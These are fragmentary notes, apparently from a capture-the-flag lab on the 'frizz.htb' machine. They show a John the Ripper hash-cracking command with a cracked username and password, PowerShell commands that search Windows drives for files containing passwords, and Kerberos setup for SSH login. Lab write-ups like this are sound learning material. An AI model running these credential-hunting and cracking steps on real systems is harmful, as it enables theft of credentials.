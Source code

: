 ```
sudo ~/john/run/john --format=dynamic='sha256($s.$p)' --show hash.txt

f.frizzle:Jenni_Luvs_Magic23

1 password hash cracked, 0 left

```

# look for specific content in files

> Get-ChildItem -Path C:\ -Filter "*.ini" -Recurse -ErrorAction SilentlyContinue |
    ForEach-Object {
        Select-String -Path $_.FullName -Pattern "password" -SimpleMatch
    }

> Get-ChildItem -Path C:\xampp\ -Include *.txt,*.ini,*.log -Recurse -ErrorAction SilentlyContinue |
    ForEach-Object {
        Select-String -Path $_.FullName -Pattern "password" -SimpleMatch     }


# TGT

before proceed change /usr/kerb5

```
[domain_realm]  
.frizz.htb = FRIZZ.HTB  
frizz.htb = FRIZZ.HTB  
  
[libdefaults]  
default_realm = FRIZZ.HTB  
dns_lookup_realm = false  
dns_lookup_kdc = true  
ticket_lifetime = 24h  
forwardable = true  
  
[realms]  
FRIZZ.HTB = {  
kdc = FRIZZDC.FRIZZ.HTB  
admin_server = FRIZZDC.FRIZZ.HTB  
default_domain = FRIZZ.HTB
```

```
aaa
```

we use OpenSSH Port 22, which uses **KERBEROS to LOGIN into WINDOWS using SSH**

```
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
```
